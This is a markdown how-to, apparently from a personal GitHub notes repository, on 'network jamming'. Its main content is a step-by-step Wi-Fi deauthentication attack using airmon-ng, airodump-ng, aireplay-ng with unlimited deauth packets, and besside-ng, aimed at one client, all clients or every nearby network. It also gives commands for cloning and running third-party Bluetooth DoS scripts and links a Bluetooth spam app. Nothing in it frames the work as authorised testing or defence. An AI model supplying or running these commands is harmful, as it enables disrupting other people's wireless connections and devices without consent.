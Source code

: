 <h1 align="center">Network Jamming / Network Spoofing</h1>

## Deauth. attack  

The **Deauth** attack perform on Wi-Fi (802.11) network only. It won't affect those people who are using internet via Ethernet cable (IEEE 802.3) i.e. wired cable. The target of this attach have 3 types :  
- [x] Attack on **a particular client** of a particular Wi-Fi's network (specific client if have/know his mac addreess)
- [x] Attack on **all clients** of a particular Wi-Fi's network (if don't know any client's MAC address)
- [x] Attack on **all Wi-Fi** available networks/routers directly.

> But to attack on Ethernet cable using clients, the methods are : ARP Spoofing / ARP Poisoning (Man-in-the-Middle Attack), DHCP Starvation or Rogue DHCP Attack, Switch MAC Flooding (CAM Table Overflow). But these we won't learn here, or maybe we'll learn it later. 

`~$` is local user.  
`~#` is root user.  

> Here :  
> for `-c` we mention channel no. of Wi-Fi network  
> for `-bssid` we mention the BSSID of Wi-Fi network  
> for `__STATION__` we mention the station/MAC-address of the Client  
<br>

#### Step 1 : Setup for Attack
First we need to convert the 'wlan0' interface to 'wlan0mon' interface, basically we are do setup & enabling the Wi-Fi's monitoring mode to do attack. For this we use the following commands :  
```
sudo su
iwconfig
ifconfig wlan0
airmon-ng
iwconfig wlan0
// airmon-ng start wlan0
airmon-ng check kill (2 times) . . .
airmon-ng stop wlan0 . . .
iw wlan0 del
airmon-ng start wlan0mon
iwconfig
rfkill list


clear
exit
exit
```
Run the above commands one-by-one only.  
<br>


#### Step 2 : Searching your targeted Wi-Fi network/router
Now run the following commands :  
```
sudo su

airodump-ng wlan0mon

- - -ctrl + C to stop
- - -Can close if done work
```
So, when it dispaly the required network then we can stop the process with 'ctrl + C' shortcut. But don't close this tab, it helps to copy network's channel no. & BSSID.  
<br>


#### Step 3 : Locking targeted Wi-Fi/router and Searching your targeted client
Now open new terminal tab and run the following commands :  
```
sudo su


airodump-ng wlan0mon --bssid "_" -c "_"
	(OR)
airodump-ng --bssid "_" -c "_" wlan0mon
	(OR)
airodump-ng -c_ -d "__BSS-ID__" wlan0mon


- - - - -Keep running, don't close
```
**Don't close it, keep running**. So, here we need to mentioned a particular Wi-Fi network's BSSID & channel no. And from this we are setting to attack on a particular Wi-Fi network. If want to attack all network then don't mention BSSID & channel no.
<br>
<br>


#### Step 4 : Attacking (on particular Client // on all Clients)
Now open new terminal tab and run the following commands :  
```
sudo su


aireplay-ng --deauth 0 -a "___BSS-ID___" -c "__STATION__" wlan0mon
	(OR)
besside-ng -c "_" wlan0mon


- - - - -ctrl + C ----😁
```
Here, if we want to attack all then don't mention BSSID & station of any client. Also, here `--deauth 0` means unlimited attack and we can even change it to `10` or `100` also.  
<br> 


#### Step 5 : Stop/closig the setup (NOT REQUIRED)
If we have captured files in the '/Desktop' location from step-3, and after handshake happned from step-4, then we can close the step with the following command :  
```
airmon-ng stop wlan0mon
```
But this is not required as of now for us.  




---
---
---




## Bluetooth DOS attack

***Internet is mandatory here.  

#### Step 1 : Setup Bluetooth Enable (optional)
Check whether the Bluetooth is enabled or not. If not enabled then enable it and proceed to **next step**. But if the Bluetooth icon is not appearing, or it's not enabling, then follow the below commands :   
```
rfkill list all
	- - - sudo apt-get update (not required)
sudo apt reinstall blueman
sudo apt reinstall bluetooth
/etc/init.d/bluetooth status
sudo /etc/init.d/bluetooth start

clear

sudo systemctl list-unit-files --type=service
	to exit---> ctrl + C

sudo systemctl enable blueman-mechanism.service
sudo systemctl enable bluetooth.service
sudo systemctl list-unit-files --type=service

clear
exit
```
So, now the Bluetooth must be activated properly or can also refer to this [YouTube](https://youtu.be/w1MvrcBSNjw) video. And now we can go to next step.  
<br>


#### Step 2 (METHOD - 1) : Software Cloning from GitHub repo
Follow the below commands to get the copy of 'DOS attack' software : ([reference](https://github.com/crypt0b0y/BLUETOOTH-DOS-ATTACK-SCRIPT) github link)
```
sudo apt update
sudo apt install python3
sudo git clone https://github.com/jieggiI/BLUETOOTH-DOS-ATTACK-SCRIPT.git
cd BLUETOOTH-DOS-ATTACK-SCRIPT/
python3 Bluetooth-DOS-Attack.py
```
Here, the `git clone` command may ask for your 'username' & 'password' of GitHub account.  
<br>
<br>


#### Step 2 (METHOD - 2) : Scanning & Attack device
Scan & Attack on device with the following mini-steps : 
- List all the connected / identified USB devices : `lsusb`
- List connected BT devices with thier status : `hciconfig`
- Turn on BT device : `hciconfig hci0 up`
- List connected BT devices with thier status : `hciconfig`
- Scan surrounding BT devices : `hcitool scan`
- Clone BT DoS attacke python script : `git clone https://github.com/xanonDev/BLUETOOTH-DOS-ATTACK-SCRIPT`
- List current directory content : `ls`
- Go into the repository directory : `cd BLUETOOTH-DOS-ATTACK-SCRIPT`
- List current directory content : `ls`
- Execute the DoS attack script : `python3 Bluetooth-DOS-Attack.py`
<br>
<br>







#### Can refer some some links : 
gg-deauth bluetooth
- https://hackmag.com/security/bluetooth-ddos/
- https://github.com/its0x08/blue-deauth
- https://null-byte.wonderhowto.com/how-to/bt-recon-snoop-bluetooth-devices-using-kali-linux-0165049/
- https://www.youtube.com/watch?v=pHqd1PnOk_4
- https://www.youtube.com/watch?v=IE_SLohDce0
---
---
---




## Bluetooth Mocking/Spam app
There is also an android bluetooth spammig app, we can get this app from [GitHub](https://github.com/simondankelmann/Bluetooth-LE-Spam).


<br>

🕸🕸make .md note keep it 

